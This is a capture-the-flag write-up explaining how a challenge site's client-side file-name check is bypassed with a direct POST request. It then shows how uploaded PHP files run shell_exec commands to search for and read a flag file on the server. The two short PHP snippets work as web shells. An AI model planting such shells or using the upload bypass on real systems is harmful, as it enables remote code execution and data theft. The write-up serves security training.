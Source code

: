 # Introduction
In This challange we can upload files to server , but wait there is a limit if file name ! or is it ? 
Always check limiations on server side !!

## Challange Discription

We uncovered a code repository and it appears to be where ARIA is storing mission-critical code. We need to break in!

https://uscybercombine-s4-scs.chals.io/


## Step 1

The page functionality only has one thing which is submit A **content** with a **file name** to website which will be uploaded.

![](../assets/SCS_1.png)


When we upload data we see that it is using POST on (/) with **application/json** as content type

![](../assets/SCS_2.png)



## Step 2

The first thing comes in mind is to upload php code and excute **RCE** on the server to find flag
But server filters input file name with bellow javascript code :

```javascript
if (pasteFileName === '') {
    pasteFileName = Math.random().toString(36).substring(7);
} else {
    if (!pasteFileName.match(/^[0-9a-zA-Z]+$/)) {
        showErrorAlert('Paste file name can only contain alphanumeric characters');
        return;
    }
}
```

To bypass this condition check in file name we have 2 options 
- Using Debuger and set breakpoint to bypass js *if*  condition 
- Creating **POST** request to upload file directly

1) First we upload bellow code to use find command where is **flag.txt** located 

```php
<?php
// Execute the 'find / -iname "*flag*"' command
$output = shell_exec('find / -iname "*flag*" 2>&1');

// Display the output
echo "<pre>$output</pre>";
?>
```

we upload with either of above methods 

![](../assets/SCS_3.png)


Then we go call the appropriate URL and we find location of **flag.txt**:

![](../assets/SCS_4.png)




## Step 3

The last step is too read flag with this php code :

```php
<?php
// Execute the 'find / -iname "*flag*"' command
$output = shell_exec('cat /tmp/test/html/cUnJOEKigRbjhra0KRIW6HGxncR4ekB9/flag.txt');

// Display the output
echo "<pre>$output</pre>";

$output = shell_exec('cat /var/www/html/cUnJOEKigRbjhra0KRIW6HGxncR4ekB9/flag.txt');

// Display the output
echo "<pre>$output</pre>";
?>
```

This will reveal the flag :

![](../assets/SCS_5.png)